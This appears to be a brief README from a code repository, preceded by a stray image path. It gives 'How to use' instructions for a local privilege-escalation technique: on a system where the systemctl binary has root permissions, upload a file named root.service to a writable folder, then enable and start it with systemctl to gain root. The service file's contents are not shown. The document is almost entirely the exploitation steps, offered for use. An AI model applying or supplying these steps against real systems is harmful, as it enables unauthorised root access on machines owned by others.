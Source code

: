 # How to use : 

This works when the binary 'systemctl' has root permissions.

Upload this to a writable folder and do :
```bash
/bin/systemctl enable ./root.service
/bin/systemctl start root
```
